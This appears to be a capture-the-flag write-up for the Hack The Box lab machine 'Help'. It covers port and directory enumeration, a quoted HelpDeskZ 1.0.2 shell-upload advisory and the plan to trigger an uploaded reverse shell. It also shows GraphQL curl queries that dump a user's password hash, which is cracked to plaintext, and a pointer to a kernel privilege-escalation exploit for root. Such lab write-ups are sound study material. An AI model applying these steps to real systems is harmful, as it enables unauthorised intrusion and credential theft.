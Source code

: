 1,Recon
port scan 
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://help.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

By enumerating the existed url, we find:
```
/support              (Status: 301) [Size: 306] [--> http://help.htb/support/]
/javascript           (Status: 301) [Size: 309] [--> http://help.htb/javascript/]
/server-status        (Status: 403) [Size: 296]
```

![](images/Pasted%20image%2020241104053523.png)

And also, we found this service is powered by `HelpDeskZ`
We found some exploits for this service and we need to use poc to prove the exploits.
`HelpDeskZ 1.0.2 - Arbitrary File Upload`
```
HelpDeskZ = v1.0.2 suffers from an unauthenticated shell upload vulnerability.

The software in the default configuration allows upload for .php-Files ( !! ). I think the developers thought it was no risk, because the filenames get obfuscated when they are uploaded. However, there is a weakness in the rename function of the uploaded file

controllers httpsgithub.comevolutionscriptHelpDeskZ-1.0tree006662bb856e126a38f2bb76df44a2e4e3d37350controllerssubmit_ticket_controller.php - Line 141
$filename = md5($_FILES['attachment']['name'].time())...$ext;

So by guessing the time the file was uploaded, we can get RCE.

Steps to reproduce

httplocalhosthelpdeskzv=submit_ticket&action=displayForm

Enter anything in the mandatory fields, attach your phpshell.php, solve the captcha and submit your ticket.

Call this script with the base url of your HelpdeskZ-Installation and the name of the file you uploaded

exploit.py httplocalhosthelpdeskz phpshell.php
```

So we need to get the upload file path to help us get the reverse shell after uploading the reverse shell.

We need to continue enumerate the valid web-contents, because we just live in the root directory of this service.
```
gobuster -u http://10.10.10.121/support -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
# /images (Status: 301)
# /index.php (Status: 200)
# /uploads (Status: 301)
# /css (Status: 301)
# /includes (Status: 301)
# /js (Status: 301)

gobuster -u http://10.10.10.121/support/uploads -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
# /index.php (Status: 302)
# /articles (Status: 301)
# /tickets (Status: 301)
```

After upload the payload from `http://help.htb/support/?v=submit_ticket&action=confirmation` we can use the exploit script to find the payload file in the upload directory, and we just need to curl it to handle the reverse shell.

Note: Due to timezones, the exploit might not work out of the box. This can be fixed by changing the local time to that of the server. The server’s time can be seen in HTTP Response

Alternatively path:
Let's come to the port 3000
`{"message":"Hi Shiv, To get access please find the credentials with given query"}`

That means we need to use query to get the valid credential.
We have known the version of this service `Node.js Express framework`

Navigating to `/graphql` we encounter an error about the GET parameter.
`GET query missing.`

So let's try `http://help.htb:3000/graphql?query=abc`
`{"errors":[{"message":"Syntax Error GraphQL request (1:1) Unexpected Name \"abc\"\n\n1: abc\n   ^\n","locations":[{"line":1,"column":1}]}]}`

Next we try to query information. A graphql endpoint takes in objects as input. As we need information related to a user lets try a user object,
`curl -s -G http://10.10.10.121:3000/graphql --data-urlencode "query={user}" | jq`
```
{
  "errors": [
    {
      "message": "Field \"user\" of type \"User\" must have a selection of subfields. Did you mean \"user { ... }\"?",
      "locations": [
        {
          "line": 1,
          "column": 2
        }
      ]
    }
  ]
}

```

`curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username} }' | jq`
```
{
  "data": {
    "user": {
      "username": "helpme@helpme.com"
    }
  }
}
```

Now we have get the email, let's continue to check the password.
`curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username,password} }' | jq
```
{
  "data": {
    "user": {
      "username": "helpme@helpme.com",
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}

```
Then crack this md5 hash, we get `godhelpmeplz`
And also we can login successfully
![](images/Pasted%20image%2020241104062255.png)

It looks like a database query terminal, and even we can change the time zone.

So let's try to check the sql-injection.
But to be honest, this SQL injection is too difficult to exploit. If possible, please try a simpler method.

2,shell as root
Firstly, I would want to use `linpeas.sh` to enumerate the machine quickly:
```
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)

That means we can check syslog

uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation

After compilation, and exec it then we can get the root shell.

